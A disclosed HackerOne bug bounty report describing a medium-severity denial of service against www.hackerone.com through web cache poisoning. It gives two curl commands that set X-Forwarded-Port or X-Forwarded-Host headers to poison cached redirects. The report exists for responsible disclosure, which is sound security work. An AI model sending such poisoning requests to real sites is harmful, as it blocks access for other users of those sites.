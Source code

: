 # Denial of service via cache poisoning

## Report Details
- **Report ID**: 409370
- **URL**: https://hackerone.com/reports/409370
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-09-13T10:14:16.500Z
- **Disclosed**: 2018-12-22T16:16:11.543Z

## Reporter
- **Username**: albinowax
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
An attacker can persistently block access to any/all redirects on www.hackerone.com by using cache poisoning with the X-Forwarded-Port or X-Forwarded-Host headers to redirect users to an invalid port.

To replicate: 
```curl -H 'X-Forwarded-Port: 123' https://www.hackerone.com/index.php?dontpoisoneveryone=1```
Then try to load https://www.hackerone.com/index.php?dontpoisoneveryone=1 in your browser.

This attack can also be done using the X-Forwarded-Host header:
```curl -H 'X-Forwarded-Host: www.hackerone.com:123' https://www.hackerone.com/index.php?dontpoisoneveryone=1```


For more information on the theory behind this attack, check out https://portswigger.net/blog/practical-web-cache-poisoning

## Impact

An attacker can persistently block access to any/all redirects on www.hackerone.com

## Attachments
- Screen_Shot_2018-09-13_at_11.08.12.png
